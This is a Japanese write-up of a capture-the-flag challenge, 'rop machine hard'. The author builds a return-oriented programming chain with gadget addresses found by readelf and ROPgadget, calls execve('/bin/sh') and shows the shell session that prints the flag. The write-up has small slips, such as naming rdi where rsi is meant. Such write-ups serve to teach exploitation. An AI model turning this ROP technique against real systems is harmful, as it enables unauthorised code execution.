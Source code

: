 # rop machine hard (232pt Normal)
# 問題文
`nc rop-hard.pwn.wanictf.org 9005`
## ヒント
- ROPgadgetコマンドの使い方を覚えましょう。
- rop machineの使い方->wani-hackase/rop-machine

## 使用ツール例
- netcat (nc)
- ROPgadget

## gccのセキュリティ保護
- Partial RELocation ReadOnly (RELRO)
- Stack Smash Protection (SSP)有効
- No eXecute bit(NX)有効
- Position Independent Executable (PIE)無効
# やったこと

```
 $ nc rop-hard.pwn.wanictf.org 9005

[menu]
1. append hex value
8. show menu (this one)
9. show rop_arena
0. execute rop
> 
```

スタックに命令を追加して最後に実行すれば良いっぽいです．
前の問題にはあった"/bin/sh"のアドレスや，コード片が用意されていません．

問題"rop machine normal"と同じように
問題文から`execve("/bin/sh", 0, 0)`の実行を目指します．

https://www.mztn.org/lxasm64/x86_x64_table.html
等を見ると，
- raxに0x3b (システムコール番号)
- rdiに"/bin/sh" (第一引数)
- rdiに0 (第二引数)
- rdxに0 (第三引数)

を指定した状態でsyscallを実行すれば`execve("/bin/sh", 0, 0)`が実行されるようです．
用意してくれなかったので，以下のアドレスを自分で見つける必要があります．

- "/bin/sh" のアドレス
- "pop rdi; ret" のアドレス
-  "pop rsi; ret" のアドレス
- "pop rdx; ret" のアドレス
- "pop rax; ret" のアドレス
- "syscall; ret" のアドレス

"/bin/sh"のアドレスは
```
$ readelf pwn05 -a | grep binsh
    59: 0000000000404078     8 OBJECT  GLOBAL DEFAULT   25 binsh
```
より0x404078

他のアドレスはROPgadgetを使って探しました．

"pop rsi; ret"はなかったので，"pop rsi ; pop r15 ; ret"を代わりに使って
スタックに入れる数を調節することにしました．

```
$ ROPgadget --binary pwn05 --ropchain | grep pop                       1 ⨯
...
0x00000000004012a9 : pop rax ; ret
0x000000000040128f : pop rdi ; ret
0x000000000040129c : pop rdx ; ret
0x0000000000401611 : pop rsi ; pop r15 ; ret
...

$ ROPgadget --binary pwn05 --ropchain | grep syscall
...
0x00000000004012b6 : syscall
...
```

- "/bin/sh" のアドレス ... 0x404078
- "pop rdi; ret" のアドレス ... 0x40128f
-  "pop rsi; ret" のアドレス ... 0x401611
- "pop rdx; ret" のアドレス ... 0x40129c
- "pop rax; ret" のアドレス ... 0x4012a9
- "syscall; ret" のアドレス ... 04012b6

これで必要なアドレスが集まりました．

次のように設定して実行してみます．

```            
0x00000000004012a9     pop rax; ret
3b
0x000000000040128f      pop rdi ret
0000000000404078          bin/sh
0x0000000000401611     pop rsi; pop r15; ret
0
0
0x000000000040129c      pop rdx; ret
0
0x00000000004012b6      syscall
```

```
nc rop-hard.pwn.wanictf.org 9005                  

[menu]
1. append hex value
8. show menu (this one)
9. show rop_arena
0. execute rop

...

     rop_arena
+--------------------+
| 0x00000000004012a9 |<- rop start
+--------------------+
| 0x000000000000003b |
+--------------------+
| 0x000000000040128f |
+--------------------+
| 0x0000000000404078 |
+--------------------+
| 0x0000000000401611 |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| 0x000000000040129c |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| 0x00000000004012b6 |
+--------------------+
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{y0ur-next-step-is-to-use-pwntools}
```

実行したらshellが立ち上がりました．

# フラグ
FLAG{y0ur-next-step-is-to-use-pwntools}

# メモ
pwnは超初心者なので間違ってるところがあるかも．